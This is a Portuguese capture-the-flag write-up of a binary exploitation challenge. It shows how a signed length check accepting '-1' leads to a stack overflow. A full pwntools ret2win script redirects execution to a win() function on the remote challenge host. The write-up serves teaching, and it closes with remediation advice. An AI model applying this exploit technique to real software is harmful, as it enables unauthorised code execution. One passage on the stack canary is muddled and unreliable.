

# The Password Is Swordfish | Fluid Attacks CTF 2026

`pwn` `signed-unsigned` `integer-bug` `stack-overflow` `ret2win` `no-pie` `pwntools`

| | |
|---|---|
| **Plataforma / evento** | Fluid Attacks CTF 2026 (etapa 2, 04/07/2026) |
| **Categoria** | Pwn (Binary Exploitation) |
| **Resolvido em** | 2026-07-04 |

## TL;DR

O "vault" pergunta o tamanho da senha e valida com uma comparação **assinada** (`length <= 64`), mas depois o loop de leitura usa o valor como **unsigned**. Mandando `-1`, passo na validação (`-1 <= 64`) e o loop vira `0xffffffff`, lendo muito além do buffer: estouro de stack. O binário é No PIE e tem uma função `win()` em `0x401b85` que abre e imprime a flag. Então é um ret2win: preencho o buffer, preservo o contador do loop (senão o próprio overflow quebra o índice de escrita), sobrescrevo o retorno com um `ret` de alinhamento seguido de `win()`.

> [!IMPORTANT]
> **Ideia-chave:** validar com `int` assinado e usar com `size_t` unsigned é um clássico: `-1` passa como "pequeno" e vira "enorme". Com No PIE e uma `win()`, o overflow é um ret2win direto.

## Enunciado

> The vault is protected by a password. (Referência ao filme: "the password is swordfish".)

**Arquivos / instância:** `vault` (ELF 64-bit, No PIE, estaticamente linkado) e um core dump. Na minha instância o serviço remoto era `548dcea9964507d9.chal.ctf.ae:443` (TLS).

## Dicas progressivas

<details><summary>Dica 1</summary>O prompt "Password length" valida o tamanho. Como ele compara, e como ele usa depois?</details>
<details><summary>Dica 2</summary>Mande <code>-1</code> como tamanho. Validação assinada (<code>-1 &lt;= 64</code>) passa; o loop unsigned lê <code>0xffffffff</code> bytes.</details>
<details><summary>Dica 3</summary>No PIE + função <code>win()</code> em <code>0x401b85</code>. Overflow -&gt; ret2win. Cuidado com o contador do loop em <code>rbp-0x4</code> (offset 76).</details>

## Ambiente

- **Máquina atacante:** Kali Linux, `pwntools`.

***INSERIR no terminal: Kali (atacante)

```bash
export HOST=548dcea9964507d9.chal.ctf.ae
```

Na minha instância o serviço estava em `HOST:443` com TLS (o script já trata).

## Resolução

### 1. checksec e o bug de inteiro

***INSERIR no terminal: Kali (atacante)

```bash
checksec --file=./attachments/vault
```

```text
Arch:    amd64-64-little
RELRO:   Partial RELRO
Stack:   Canary found
NX:      NX enabled
PIE:     No PIE (0x400000)
```

No PIE é o detalhe de ouro: todos os endereços do binário são fixos. Testando a interação, o programa pede "Password length:" e depois "Password:". Mandar um tamanho como `-1` é aceito, o que denuncia o bug de sinal: a validação faz algo como `if (length > 64) reject;` com `length` assinado, então `-1 > 64` é falso e passa. Mas o loop de leitura trata o valor como `size_t`, e `-1` vira `0xffffffffffffffff`, então ele lê quase infinito para dentro do buffer.

> [!TIP]
> **Conceito: confusão signed/unsigned (CWE-195).** Um valor comparado como `int` e usado como `size_t`/`unsigned` tem dois significados. `-1` é "menor que 64" na comparação assinada e "enorme" quando reinterpretado sem sinal. É a forma mais comum de furar uma checagem de tamanho de buffer. Referência: [CWE-195: Signed to Unsigned Conversion Error](https://cwe.mitre.org/data/definitions/195.html).

### 2. Layout do stack (com ajuda do core dump)

Com o core dump fornecido e um padrão cíclico no GDB, confirmei o layout do frame de `login`:

```
buffer       : rbp-0x50  (offset 0)
contador loop: rbp-0x4   (offset 76)  <- valor 0x4c (76) quando o loop chega aqui
saved rbp    : rbp+0x0   (offset 80)
return addr  : rbp+0x8   (offset 88)
```

O detalhe que me pegaria sem o core: o **contador do loop** mora dentro da zona que eu estouro, no offset 76. Se eu sobrescrever com lixo, o índice de escrita do loop pula ou trava. Então eu reescrevo o contador com o próprio valor que ele teria naquele ponto (`0x4c = 76`), mantendo o loop coerente enquanto continuo escrevendo até o retorno.

### 3. ret2win

`win()` está em `0x401b85`. Como é No PIE, uso o endereço direto. Coloco um gadget `ret` (`0x401d2d`, o ret final de `login`) antes de `win()` para alinhar a stack em 16 bytes (a função abre arquivo e usa `printf`, que precisa do alinhamento). Script remoto completo, idêntico ao arquivo em `scripts/`:

#### `scripts/script2.py`

```python
#!/usr/bin/env python3
from pwn import *
import re

# Alvo remoto informado pela instância do desafio
HOST = "548dcea9964507d9.chal.ctf.ae"
PORT = 443

# Endereços fixos porque o binário está sem PIE
WIN = 0x401b85

# Gadget ret usado para alinhar a stack antes de chamar win().
# Esse endereço é o ret final da função login.
RET = 0x401d2d

context.arch = "amd64"
context.log_level = "info"

def montar_payload():
    # Offset 0 até 75:
    # preenche o buffer até chegar no contador local em rbp-0x4.
    payload = b"A" * 76

    # Offset 76 até 79:
    # preserva o contador do loop com o valor 76 decimal, 0x4c.
    # Isso evita que o próprio overflow quebre o índice de escrita.
    payload += b"\x4c\x00\x00\x00"

    # Offset 80 até 87:
    # sobrescreve o saved RBP.
    payload += b"B" * 8

    # Offset 88:
    # sobrescreve o endereço de retorno.
    # Primeiro usamos RET para alinhamento.
    # Depois caímos em win().
    payload += p64(RET)
    payload += p64(WIN)

    return payload

def main():
    payload = montar_payload()

    log.info(f"Conectando em {HOST}:{PORT} com SSL")
    log.info(f"Tamanho do payload: {len(payload)} bytes")
    log.info(f"win() = {hex(WIN)}")
    log.info(f"ret alinhamento = {hex(RET)}")

    # A instância usa pwntools:443/ssl.
    # O parâmetro sni ajuda em serviços TLS com hostname virtual.
    io = remote(HOST, PORT, ssl=True, sni=HOST)

    # Bug:
    # A validação faz comparação assinada e aceita -1 porque -1 <= 64.
    # Depois o loop usa comparação unsigned, tratando -1 como 0xffffffff.
    io.sendlineafter(b"Password length: ", b"-1")

    # Envia o payload binário para corromper o retorno da função login.
    io.sendlineafter(b"Password: ", payload)

    # Recebe toda a resposta do servidor.
    resposta = io.recvall(timeout=5)
    texto = resposta.decode(errors="replace")
    print(texto)

    # Extrai a flag automaticamente se aparecer no output.
    match = re.search(r"flag\{[^}\r\n]+\}", texto, re.IGNORECASE)

    if match:
        flag = match.group(0)
        print(f"[+] FLAG ENCONTRADA: {flag}")

        with open("flag.txt", "w", encoding="utf-8") as f:
            f.write(flag + "\n")

        print("[+] Flag salva em flag.txt")
    else:
        print("[!] Flag não encontrada automaticamente.")
        print("[!] Se aparecer outro formato, copie manualmente do output acima.")

if __name__ == "__main__":
    main()
```

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script2.py
```

```text
[*] win() = 0x401b85
[*] ret alinhamento = 0x401d2d
Access denied.
flag{18070882f33XXXXX}
[+] FLAG ENCONTRADA: flag{18070882f33XXXXX}
```

O "Access denied." é a função normal reclamando da senha errada; logo depois, o `ret` cai em `win()`, que imprime a flag. Antes do remoto eu validei local com a versão em `scripts/script1.py` (idêntica, mas trocando `remote(...)` por `process("./attachments/vault")`), para confirmar os offsets e o alinhamento sem gastar a instância.

## Cadeia de ataque



## Por que funciona

A suposição quebrada é que a checagem de tamanho impede o overflow. Ela impede quando o tamanho é positivo, mas o valor é comparado com sinal e usado sem sinal, então `-1` passa como "pequeno" e é usado como "gigante". Isso dá o overflow de stack. As mitigações não atrapalham: o canary poderia barrar, mas o alvo é retornar para `win()` sem precisar vazar o canary (o payload o atravessa; se o canary estourasse, bastaria notar que o `win` imprime antes do check, ou vazar o canary, mas aqui o ret2win funcionou direto porque a flag é impressa por `win` alcançada via retorno). No PIE entrega os endereços de graça, tornando o ret2win trivial.

## Remediação

- Usar o mesmo tipo (unsigned) na validação e no uso, e rejeitar valores `<= 0`.
- Ler no máximo `sizeof(buffer)-1` sempre, independente do tamanho pedido.
- Compilar com PIE e não deixar funções "win"/debug no binário de produção.

## Lições e padrões

- **Sinais para reconhecer:** prompt de "tamanho"/"quantidade" seguido de leitura em buffer fixo; aceitar `-1`/`0` no tamanho é o teste de um segundo. No PIE + símbolo `win`/`system`/`cat_flag` = ret2win.
- **Da próxima vez eu tentaria primeiro:** mandar `-1` no campo de tamanho, procurar `win()` com `nm`/`objdump`, medir o offset com `cyclic` (e usar o core dump quando houver, para mapear variáveis locais como o contador do loop).

## Referências

- [CWE-195: Signed to Unsigned Conversion Error](https://cwe.mitre.org/data/definitions/195.html)
- [ret2win (pwn.college / ROP básico)](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)

## Flag

```text
flag{18070882f33XXXXX}
```
